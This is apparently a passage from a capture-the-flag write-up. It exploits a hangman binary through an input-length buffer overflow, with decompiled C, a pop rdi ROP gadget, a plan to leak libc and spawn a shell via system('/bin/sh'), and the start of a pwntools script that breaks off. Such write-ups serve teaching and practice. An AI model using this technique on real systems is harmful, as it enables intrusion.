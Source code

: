 ```c
  }
}

__int64 __fastcall checkWord(const char *a1, const char *a2)
{
  size_t v2; // rax

  v2 = strlen(a1);
  if ( !strncmp(a1, a2, v2) )
  {
    puts("Congrats! You guessed the word, enjoy the win, hangman master ;)");
    exit(1);
  }
  puts("You guessed wrong!");
  puts((&hangmen)[attempts]);
  puts(currentGuess);
  return (unsigned int)++attempts;
}
```

We were given 7 attempts to guess the random word that generated previously. We have 3 options: guess a letter, directly guess the word, or give up and back to the main menu. Notice that in the guess word section, the program asks us for `2 * v5` bytes of input where `v5` is the length of the random word. That can lead to buffer overflow bug if `2 * v5` is greater than the size of the input buffer `v2`, i.e. 23 bytes. Since almost all words has 18 bytes, the condition easily satisfied, but the overflow size is so small we can't do anything useful. Fortunately, there is one word that has larger length, i.e. the last word that i mentioned before. It has 36 bytes length that makes us have `2 * 36 - 23 = 49 bytes` overflow. That's enough bytes to place 3 ROP gadgets for our exploit.

Let's see what useful gadgets we have from the binary.

```
...
0x00000000004012be : pop rdi ; ret
...
```

Cool! We have `pop rdi` gadget to set the first argument of a function call. It can be used to call `puts(puts)` to leak libc address. After we get the libc address, we can simply call `system("/bin/sh")` and get a shell.

But there is a problem: the word is randomly choosen from the array. In this case, it is actually not a problem since we knew the seed of the pseudo-random generator that makes the random word became predictable. So, we just have to continously generate random word until we get the word we want.

#### POC

```python
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL

context.terminal = "kitty @launch --location=split --cwd=current".split()


def start():
    if args.LOCAL:
        if args.GDB:
            return gdb.debug(
                exe.path,
                gdbscript="""
            # b playGame
            c
            """,
            )
```